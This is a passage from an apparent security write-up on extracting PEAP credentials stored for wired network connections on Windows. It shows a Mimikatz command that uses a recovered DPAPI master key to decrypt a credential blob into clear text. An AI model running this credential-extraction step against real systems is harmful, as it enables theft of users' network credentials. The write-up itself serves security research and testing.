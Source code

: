 ![DPAPI master key obtained with Mimikatz](/assets/posts/2024-02-25-peap-credentials-wired-connections/11_mimikatz-sekurlsa-dpapi.png)
_DPAPI master key obtained with Mimikatz_

We are almost there. To get the clear text data, we just need to add the command line parameters `/unprotect` and `/masterkey:KEY` to our previous `dpapi::blob` command, and...

```batch
dpapi::blob /in:c:\temp\wired.bin /raw /unprotect /masterkey:73b724580d0abfd9ebb62c462151334ced52fb75203dace1f8ab631326b75c3a297246e577362dfba88bb3ae5561fa091e1d9b02c450d859a19fed66e397d9f5
```
